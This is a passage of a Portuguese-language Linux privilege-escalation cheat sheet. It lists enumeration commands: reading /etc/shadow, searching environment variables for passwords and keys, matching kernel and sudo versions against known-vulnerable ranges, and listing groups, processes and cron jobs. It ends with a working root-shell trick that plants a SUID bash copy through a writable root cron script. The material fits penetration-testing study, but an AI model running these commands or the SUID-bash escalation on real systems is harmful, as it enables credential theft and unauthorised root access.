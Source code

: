 	cat /etc/shadow

## **Variáveis de ambiente**

Observe as variáveis de ambiente em busca de usuários, senhas e chaves de aplicações

	(env set) 2\>/dev/null

## **Kernel**

Verifique se existem CVE’s para o kernel.

	cat /proc/version  
	uname -a

## **Sudo**

O sudo também é vítima de CVE’s dependendo da sua versão, não deixe de verificar 

	sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

## **Grupos**

Cheque as permissões que você tem através do seu grupo de usuários

	find / -group adm 2>/dev/null

## **Processos**

Verifique os processos e as suas permissões

	ps aux
	ps -ef
	top -n 1

## **Tarefas Programadas**

Alguns aplicativos são configurados para serem executados em dias e horários específicos mesmo com a máquina em suspensão ou com o usuário deslogado, para isso, as credenciais são armazenadas.

	crontab -l
	ls -al /etc/cron* /etc/at*
	cat /etc/cron* /etc/at* /etc/anacrontab
	/var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"

  Se você pode modificar uma tarefa com acesso root você pode obter um shell através de:
  
	echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
	#Wait until it is executed
	/tmp/bash -p

## **Serviços**
